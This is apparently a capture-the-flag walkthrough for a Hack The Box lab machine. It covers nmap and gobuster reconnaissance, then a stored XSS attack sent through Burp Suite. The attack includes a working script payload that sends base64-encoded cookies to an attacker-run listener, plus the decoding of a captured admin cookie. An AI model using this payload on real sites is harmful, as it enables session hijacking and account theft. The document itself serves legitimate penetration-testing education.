

Start pinging the target IP:

```
ping 10.10.11.8
```

You will get response outcome meaning that the server is active. Let's start with an nmap scap to see what ports are opened and which information can be retrieved.

```
nmap -sC -sV 10.10.11.8 -oN output_nmap.txt
```

This command returns the output of nmap into `output_nmap.txt`file.

`-sC`: Default Script Scan. Runs a set of standard nmap scripts at the target host (Checking for open proxy servers, identifying HTTP servers, detecting SSL/TLS certificate details... etc). This command adds depth to the scan by running various scripts that can uncover additional information and potential vulnerabilities.

`-sV`: Version Detection. Probes open ports to determine what service and version is running on them. It sends various probes to the open ports and analyzing the responses (e.g., Identifying application and version running on each open port). It ensures you get accurate service and version information for the open ports, which can be crucial for identifying specific vulnerabilities and understanding the network environment better.
Concatenating `-sC` and `-sV` in `nmap` scans is a common practice because it provides a detailed analysis of the target.

The summary of the outcome is the following:

1. Host IP: `10.10.11.8`
2. Open ports:
   a. 22/tcp: SSH (OpenSSH 9.2p1)
   b. 5000/tcp: Web server
3. Operating System: Linux

The outcome shows that the open SSH service on port 22 and the web server on port 5000 might be targets for further investigation or exploitation.



As there is a webserver host. The most interesting way is to access from a browser `http://10.10.11.8:5000`. It automatically redirects to `http://10.10.11.8:5000/support`. We observe that the site is reachable and contains a form to send. Usually forms are good infection points which attackers can leverage to bypass systems or interact with them.

(pic2)
(pic3)

Instead of trying common scripts in javascript to interact with the website and make them vulnerable. Let's scan what this domain has to offer. There is a famous tool in Kali Linux called `Gobuster`.

`Gobuster` is a tool for brute-forcing directories, files, DNS subdomains and virtual hosts. It is commonly used in pentesting to discover hidden resources on a web server that might not be immediately visible through normal browsing or standard `web crawlers`. To install it type: `sudo apt install gobuster`. Then run the following command:
```
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirb/big.txt
```
gobuster uses the `dir` flag to scan for directories on the `-u` (url flag) on the domain specified using the `-w` worldlist flag located in `/usr/.../big.txt`. It can be observed that there are two available URLs `/dashboard` (Status:500, , i.e., Internal Server Error) and `/support` (Status: 200, i.e., OK). Our URL of interest is `/dashboard`. The reason why it isn't accessible can be because server configuration errors, resource limits... the most plausible situation is permission issues. It is highly likely that we don't have persmissions to access such URL so let's dig more into it.

(pic4)
(pic5)

So to access `http://10.10.11.8:5000/dashboard`we need to be able to login or have admin privileges. A good way to login is to find a login page (and use brute force for example or any additional hits in such login page). Nonetheless, we only have a non-accessible URL. There must be a way to bypass the server and make them think that we are authorized to access the URL. A good way to bypass/trick the server is to give an admin cookie or session id. The differences between admin cookie and session id can be seen in the following URL:
https://www.tutorialspoint.com/What-is-the-difference-between-session-and-cookies#:~:text=Cookies%20are%20client-side%20files,files%20that%20store%20user%20information.&text=Cookies%20expire%20after%20the%20user,logs%20out%20of%20the%20program.

(pic6)

How can an admin cookie be obtained? A good way to obtain admin cookies is to use a XSS-steal cookie technique. An example can be found in the following URL:
https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e

Cross-Site Scripting (XSS) is a vulnerability that allows an attacker to inject malicious scripts into web pages. These scripts can run in the context of the victim's browser and can be used for a variety of malicious activities, including stealing cookies. Cookies often store session tokens and other sensitive information, and stealing them can allow an attacker to hijack a user's session, gaining unauthorized access to their account. So that's what we want to access the unauthorized URL `/dashboard`. When an XSS vulnerability is present on a website, an attacker can inject a script that reads the user's cookies and sends them to the attacker’s server. The attacker can then use these cookies to impersonate the user.

For this attack we need the following ingredients:

1. Setting up a server
2. Configure Burp-suite scanner
3. Inject the malicious code

##### 1. Setting up the server

The purpose of this step is to set up a server to receive the stolen cookie. Use a basic HTTP server on port 8001 that will log incoming requests. The server listens for incoming HTTP requests. In this attack, it will receive requests containing the victim's cookies. Type in a new CLI:

```
python3 -m http.server 8001
```

(pic7)

##### 2. Configure Burp-suite scanner

Open Burp-suite scanner. Click on "Temporary project in memory", "Next", "Use Burp defaults", "Start Burp". Click on `Proxy` tab, then on ìntercept is off` to set it on. You will have an outcome as follows:

(pic10)

Click on "Open browser". A browser will appear on your left. This explorer is designed to interact with Burp-suite so we will use it for the XSS.

(pic11)

Type in the search bar `http://10.10.11.8:5000/support`. You will observe that the page is freezed. This is because Burp-suite is not allowing the packets to continue. To land in the URL click on "Forward" button.

(pic12)

You will see that the URL is reached. Introduce some random data into the webpage. Submit. Check the outcome on the right-hand side. That's all the packet information. Right-click on the packet information and select "send to repeater" so we will be able to try multiple things without recatch the packets each time. Now time to inject the payload. 

```
<script>var i=new Image(); i.src="http://{IP}:{port}/?cookie="+btoa(document.cookie);</script>
```

Observe the terms `{IP}:{port}`in the previous command line (CL). The CL is generic and won't work. You have to find your IP address and use the port of the server built in step 1. To know your IP address type in a new terminal `ifconfig` and you must see your personal IP and the IP assigned to your HTB VPN. The IP from the VPN is the one you have to use. In my situation is `10.10.14.108` so my XSS injection is `<script>var i=new Image(); i.src="http://10.10.14.108:8001/?cookie="+btoa(document.cookie);</script>`.

Introduce this CL into Burp-suite in `User-Agent` field and forward the communication. If no results appear add it too into the `message` field and click on forward.

(pic8)

You will receive the following outcome in your server CLI:

(pic13)

Congratulations! You got the admin cookie. Now you have to decode it. Your XSS-injection script was encoded in binary 64 ensuring safe transmission via URL. So now you have to decode it. For that open a new CLI and run: 

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
```
The outcome is the decoded admin cookie:

(pic14)
